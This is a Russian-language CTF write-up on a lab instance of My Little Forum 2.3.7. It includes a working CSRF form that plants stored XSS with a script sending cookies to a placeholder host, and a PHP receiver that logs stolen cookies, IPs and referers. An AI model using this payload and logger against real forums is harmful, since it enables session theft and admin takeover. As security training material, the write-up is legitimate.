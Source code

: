 ﻿# Форум для всех

Веб-сайт:
![Site](/img/4.png)

1. Заходим на форум. Видим, что уже многие пробовали XSS и т.д. Имеем достаточно много инпутов: куки 4 штуки, различные формы и GET запросы. Заставлять участников првоерять их все - очень жестоко.
2. Внизу страницы видим `powered by My Little Forum 2.3.7` Значит это какой-то сторонний движок.
3. Идем в гугл. Вбиваем My Little Forum 2.3.7. Видим, что это уязвимая версия. Переходим к примеру на этот сайт https://www.exploit-db.com/exploits/40676/
4. Читаем про уязвимости. Пробуем первую.
5. Для CSRF и XSS копируем форму с сайта и делаем так, чтобы при переходе на нее автоматически отправляла POST запрос на указанный адрес:
```html
<form action="http://10.0.38.133:61937/index.php?mode=admin&action=edit_page" method="post" accept-charset="utf-8">
<input type="hidden" name="mode" value="admin">
<input type="hidden" name="title" value="Stored XSS 
<script>alert(1)</script>">
<input type="hidden" name="content" value="Stored XSS 
<script>alert(2)</script>">
<input type="hidden" name="menu_linkname" value="<script>var img=new Image();img.src='https://your_site/index.php?'+ encodeURI(document.cookie);</script>">
<input type="hidden" name="edit_page_submit" value="1">
<input type="submit" name="edit_page_submit" value="OK - Save page">
</form>
<body onload="document.forms[0].submit()">
```
PHP код:
```php
<?php
$text = urldecode($_SERVER['QUERY_STRING']);

if (!empty($_SERVER['HTTP_CLIENT_IP'])) 
{
	$ip=$_SERVER['HTTP_CLIENT_IP'];
}
elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))
{
	$ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
}
else
{
	$ip=$_SERVER['REMOTE_ADDR'];
}
$file=fopen("file.txt", "a");
fwrite ($file, $text.PHP_EOL);
fwrite ($file, $ip.PHP_EOL);
fwrite ($file, $_SERVER['HTTP_REFERER'].PHP_EOL);
fclose($file);
?>
```

В одно из полей пишем свой XSS, чтобы ловить куки. Например, в поле menu_linkname. Пишем на форуме пост со своей ссылкой. Получаем куку с flag.

